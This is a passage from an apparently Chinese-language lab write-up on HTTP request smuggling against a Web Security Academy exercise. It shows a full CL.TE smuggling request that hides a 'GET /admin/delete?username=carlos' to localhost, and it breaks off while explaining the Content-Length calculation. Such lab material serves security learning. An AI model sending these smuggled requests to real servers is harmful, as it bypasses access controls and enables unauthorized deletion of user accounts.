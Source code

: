 [![](assets/1698897445-4e6c3bdbdb6b79efc9621e4e74d582a5.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123155053.png)

得到了删除的 api，于是我们再利用 HTTP Smuggling 访问这个 `/admin/delete?username=carlos` 即可，构造如下数据包：

```bash
POST / HTTP/1.1
Host: ac211ffb1eae617180910ebc00fc00f4.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 63
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
```

[![](assets/1698897445-ed66ebc77580e60c5061e9126991babb.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123155603.png)

这种攻击方式类似 HTTP SSRF，主要的点就是在控制 CL 数值上，比如说第一个数据包 CL 的值为 28，是这么计算的：
